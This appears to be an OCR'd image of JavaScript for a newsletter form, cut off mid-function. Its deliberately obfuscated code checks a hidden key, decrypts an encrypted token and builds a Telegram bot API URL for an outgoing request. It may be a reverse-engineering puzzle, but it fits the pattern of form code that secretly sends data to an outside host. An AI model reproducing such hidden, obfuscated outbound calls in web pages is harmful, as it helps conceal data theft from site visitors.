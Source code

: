 ```javascript
document["getElementById"]("newsletterForm")["addEventListener"]("submit", function(e) {
    e["preventDefault"]();
    const emailField = document["getElementById"]("email");
    const descriptionField = document["getElementById"]("descriptionField");

    let isValid = true;
    if (!emailField["value"]) {
        emailField["classList"]["add"]("shake");
        isValid = false;
        setTimeout(() => {
            return emailField["classList"]["remove"]("shake")
        }, 500)
    };
    if (!isValid) {
        return
    };
    const emailValue = emailField["value"];
    const specialKey = emailValue["split"]("@")[0];
    const desc = parseInt(descriptionField["value"], 10);
    
    f(specialKey, desc)
});;

function G(r) {
    return function() {
        var r = Array.prototype.slice.call(arguments),
            o = r.shift();
        return r.reverse().map(function(r, t) {
            return String.fromCharCode(r - o - 7 - t)
        }).join('')
    }(43, 106, 167, 103, 163, 98) + 1354343..toString(36).toLowerCase() + 21..toString(36).toLowerCase().split('').map(function(r) {
        return String.fromCharCode(r.charCodeAt() + -13)
    }).join('') + 4..toString(36).toLowerCase() + 32..toString(36).toLowerCase().split('').map(function(r) {
        return String.fromCharCode(r.charCodeAt() + -39)
    }).join('') + 381..toString(36).toLowerCase().split('').map(function(r) {
        return String.fromCharCode(r.charCodeAt() + -13)
    }).join('') + function() {
        var r = Array.prototype.slice.call(arguments),
            o = r.shift();
        return r.reverse().map(function(r, t) {
            return String.fromCharCode(r - o - 60 - t)
        }).join('')
    }(42, 216, 153, 153, 213, 187)
};

function f(oferkfer, icd) {
    const channel_id = -1002496072246;
    var enc_token = "nZiIjaXAVuzO4aBCf5eQ5ifQI7rUBI3qy/5t0Djf0pG+tCL3Y2bKBCFIf3TZ0Q==";
    if (oferkfer === G("s3cur3k3y") && CryptoJS["SHA256"](sequence["join"](""))["toString"](CryptoJS["enc"]["Base64"]) === "18m0oThLAr5NfLP4hTycCGf0BIu0dG+P/1xvnW6O29g=") {
        var decrypted = CryptoJS["RC4Drop"]["decrypt"](enc_token, CryptoJS["enc"]["Utf8"]["parse"](oferkfer), {
            drop: 192
        })["toString"](CryptoJS["enc"]["Utf8"]);
        var HOST = "https://api.telegram.org" + String["fromCharCode"](0x2f) + String["fromCharCode"](0x62) + String["fromCharCode"](0x6f) + String["fromCharCode"](0x74) + decrypted;
        var xhr = new XMLHttpRequest();
        xhr["onreadystatechange"] = function() {
            if (xhr["readyState"] == XMLHttpRequest["DONE"]) {
                const resp = JSON["parse"](xhr["responseText"]);
                try {
```
